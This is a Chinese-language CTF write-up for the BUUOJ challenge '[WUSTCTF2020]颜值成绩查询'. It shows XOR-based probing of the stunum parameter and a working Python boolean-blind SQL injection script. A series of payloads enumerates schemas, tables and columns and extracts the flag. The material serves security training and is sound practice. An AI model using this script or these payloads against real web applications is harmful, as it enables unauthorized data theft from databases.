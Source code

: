 # [WUSTCTF2020]颜值成绩查询
![](<./img/Pasted image 20221223122239.png>)

---
首页长这样

![](<./img/Pasted image 20221223122304.png>)

通过`stunum`传递查询
```php
/?stunum=<num>
```

---
```php
/?stunum=1
```

> Hi admin, your score is: 100

```php
/?stunum=2
```

> Hi åŒå‡»è€é, your score is: 666

```php
/?stunum=3
```

> Hi åˆ«fuzzäº†, your score is: ä½ å°±ä¸ä¼šè¾“ä¸ªå­¦å·?

```php
/?stunum=4
```

> Hi å“¦æ•°æ®å, your score is: AISæˆå‘˜çš„æ•°æ®

逐渐魔法起来力

猜测是不是存在`sql`注入
```php
/?stunum=0^1
```

> Hi admin, your score is: 100

```php
/?stunum=0^0
```

> student number not exists.

尝试直接布尔盲注
```python
import requests
import time
import sys

url = "http://xxx.node4.buuoj.cn:81"

fmt = '0^(ord(substr((select(group_concat(schema_name))from(information_schema.schemata)),%d,1))>%d)'
false_re = 'exists'

for i in range(0, 100):
    l = 0
    r = 127
    while l < r:
        mid = (l + r) // 2
        payload = fmt % (i, mid)
        params = {'stunum': payload}
        response = requests.get(url, params)
        time.sleep(0.1)
        if response.text.find(false_re) >= 0: # mid >= ans
            r = mid
        else: # mid < ans
            l = mid + 1
    print(chr(l), end='')
    sys.stdout.flush()
```

> information_schema,ctf

```python
fmt = '0^(ord(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema=\'ctf\')),%d,1))>%d)'
```

> flag,score

```python
fmt = '0^(ord(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name=\'flag\')),%d,1))>%d)'
```

> flag,value

```python
fmt = '0^(ord(substr((select(group_concat(flag))from(ctf.flag)),%d,1))>%d)'
```

> flag

```python
fmt = '0^(ord(substr((select(group_concat(value))from(ctf.flag)),%d,1))>%d)'
```

> flag{808357e6-c9d9-48c6-84f8-23e18ec19981}

#Web #SQL注入 #布尔盲注 
